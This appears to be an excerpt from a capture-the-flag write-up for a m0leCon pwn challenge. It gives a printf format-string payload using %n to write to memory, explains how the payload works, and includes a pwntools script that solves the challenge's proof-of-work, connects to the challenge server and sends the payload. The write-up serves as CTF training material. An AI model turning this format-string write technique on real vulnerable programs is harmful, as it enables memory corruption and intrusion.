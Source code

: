 So the solution payload is the following:

```
%*11$c%*10$c%8$n
```

It tells `printf` to:
1. print your first argument as char padded to `rand2` long with spaces
2. print your second argument as char padded to `rand1` long with spaces
3. write the number of printed characters to the address held in your 8th variable.

```python
from pwn import *
from itertools import product
from string import ascii_letters
import hashlib

p = None

def genSHA(string_start, sha_end):
    for item in product(ascii_letters, repeat=6):
        solution = string_start+''.join(item).encode('ascii')
        test = hashlib.sha256(solution).hexdigest()
        if test.endswith(sha_end.decode('ascii')):
            return solution

def solvePoW():
    p.recvuntil("Give me a string starting with ")
    string_start = p.recvuntil(" ")[:-1]
    p.recvuntil("ends in ")
    sha_end = p.recvuntil(".")[:-1]

    print(f"[+] String start: {string_start}, SHA256 end: {sha_end}")
    sha_solution = genSHA(string_start, sha_end)
    print(sha_solution)

    p.sendline(sha_solution)

def run():
    global p
    p = remote("challs.m0lecon.it","5556")

    solvePoW()

    p.recvuntil("summed to ")
    sum = int(p.recvuntil("!")[:-1])
    for i in range(16):
        p.sendlineafter("\n", "%*11$c%*10$c%8$n")

    p.interactive()


if __name__ == "__main__":
    run()
```
